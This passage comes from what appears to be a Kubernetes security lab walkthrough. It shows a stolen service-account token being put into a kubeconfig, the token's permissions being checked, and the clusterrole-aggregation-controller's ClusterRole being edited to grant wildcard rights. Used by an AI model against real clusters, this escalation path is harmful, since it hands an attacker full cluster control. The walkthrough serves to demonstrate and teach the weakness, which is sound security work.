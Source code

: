    Here's an example screenshot with the highlighted portion you want to copy:
   ![](media/02-07-08-token.png)

11. Edit your demokubeconfig file one more time, commenting out the prior `token:` adding a new one with the string we copied.
   ```yaml
   ...
   users:
   - name: snyk
     user:
       token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJpc3MiOiJrdWJl...
   #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0...
   #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0...
   ```

12. Let's see what that token's permissions include: `kubectl auth can-i --list`
   ```shell
   $ kubectl auth can-i --list
   Resources                                       Non-Resource URLs                     Resource Names   Verbs
   selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
   selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
   clusterroles.rbac.authorization.k8s.io          []                                    []               [escalate get list patch update watch]
   ...
   ```
   This is not _quite_ full admin access, but the fact that we can `escalate` ClusterRoles means we are just a step away.


13. Now, let's edit the `clusterrole-aggregation-controller` service account's clusterrole rights: `kubectl edit clusterrole system:controller:clusterrole-aggregation-controller`
    Change the roles section to match the following:
   ```yaml
   rules:
   - apiGroups:
     - '*'
     resources:
     - '*'
     verbs:
     - '*'
   ```
   Save end exit the edit session and you should see the following:
   ```shell
   ```